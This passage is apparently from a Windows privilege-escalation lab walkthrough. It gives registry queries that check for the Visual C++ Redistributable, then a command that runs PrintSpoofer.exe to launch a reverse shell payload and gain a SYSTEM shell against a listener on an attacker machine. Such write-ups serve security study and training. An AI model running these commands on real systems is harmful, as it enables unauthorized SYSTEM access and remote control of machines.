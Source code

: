 This exploit requires that the `Visual C++ Redistributable` is installed, and this can be checked through the following registry keys.
```powershell
#64-bit VC++ Redistributable
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\VisualStudio\14.0\VC\Runtimes\x64

#32-bit VC++ Redistributable
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\VisualStudio\14.0\VC\Runtimes\x86
```

Start a listener on the attacker machine and run `PrintSpoofer.exe` to have it execute a reverse shell payload to spawn a SYSTEM shell. 
```bash
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```
